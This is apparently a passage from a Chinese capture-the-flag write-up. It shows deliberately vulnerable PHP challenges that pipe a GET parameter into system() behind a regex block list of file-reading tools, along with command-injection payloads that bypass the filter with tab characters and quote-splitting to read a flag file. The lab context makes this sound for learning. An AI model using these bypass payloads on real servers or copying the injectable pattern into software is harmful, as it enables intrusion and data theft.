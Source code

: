 ```
```

小老弟你怎么回事？

payload:?c=tac%09fl''ag.php||



### web49

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:22:43
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

payload:?c=tac%09fl''ag.php||

这tac是犯了天条吗？几乎没见着过滤它的。



### web50

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:32:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```